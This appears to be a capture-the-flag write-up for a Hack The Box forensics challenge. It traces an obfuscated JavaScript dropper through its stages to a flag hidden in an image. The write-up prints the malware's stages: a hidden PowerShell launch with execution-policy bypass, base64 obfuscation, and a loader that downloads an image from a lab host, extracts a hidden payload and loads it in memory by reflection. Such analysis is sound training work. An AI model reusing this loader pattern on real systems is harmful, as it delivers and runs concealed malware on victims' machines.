```yaml
---
layout: post
author: pl4int3xt
title: University CTF 2023:Brains and bytes
date: '2023-12-10'
# cover: img/cover_images/47.jpg
description: "Hack the box university ctf 2023: Brains and bytes"
categories: [Capture The Flag]
---
```


## Forensics
### One Step Closer
> Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 

We are provided with vaccine.js file which is somehow obfuscated, so after analysing the file we come across a url `http://infected.human.htb/d/BKtQR`

```javascript
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
```

Let's try to download the file using the docker ip and port 

```shell
http://94.237.57.242:50411/d/BkQR
```

After making the request we get a very huge obfuscated file which is hard to read. So i scrolled until the end and found this powershell code written in reverse. 

```powershell
StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
```

The file was suspicious, hard to read and understand "obviously because it was written by the zombies" i decided to upload it to virus total and see the behaviour.


![img-description](1.png)

Process 4080 reveals the command executed by the file. it is base64 encoded and so we decode it
```powershell
4080 - "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command '$Codigo = ''Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVQByem9tYmllcGwem9tYmllcIe 
...
<SNIP>
...
mllc='';$OWjuxd = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD'
```

From the code we can see that em9tYmllc is being replaced with A and so we replace all the instances of em9tYmllc with A to get a clean base64 encoded string "free from any zombie virus"

```powershell
GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));
```

```shell
JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5A
...
<SNIP>
...
wBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA=
``` 

We then decode the base64 string and discover another powershell script

```powershell
d5dff21b17ee-1f48-5c74-c934-d73c2a63=nekot&aidem=tla?txt.refsnart/o/moc.topsppa.f93c6-gnikcah/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag = '<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu')
```

From the script we see that its trying to download an image from this `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` url and so we try to get it using our docker ip and port

![img-description](2.png)

Next we use exiftool and find some interesting stuff.

```shell
> exiftool WJveX71agmOQ6Gw_1698762642.jpg
ExifTool Version Number         : 12.70
File Name                       : WJveX71agmOQ6Gw_1698762642.jpg
Directory                       : .
File Size                       : 2.9 MB
File Modification Date/Time     : 2023:12:06 13:51:30+03:00
File Access Date/Time           : 2023:12:10 19:25:29+03:00
File Inode Change Date/Time     : 2023:12:10 19:25:24+03:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
```

2.9 MB i knew something must be hidden in the file so i tried to change the image extension to .png and used zsteg 

```shell
> zsteg img.png
extradata:0         .. text: "<<BASE64_START>>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAA
...
<SNIP>
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEhUQnswbjNfU3QzcF9jbDBzM3JfdDBfdGgzX2N1cjN9Cg==<<BASE64_END>>\n\n"
```

This was a very large base64 string. I took the string to cyber chef for a nice "zombie recipe"

![img-description](3.png)

We can see `MZ` meaning it is a windows executable file.So i decided to just continue scrolling and boom there's the cure to the zombie virus.

![img-description](4.png)

These zombies really used their BRAINS to BYTE the system.

![yay](joke.gif)

<!-- ![img-description](/img/cert/HTB2023.png) -->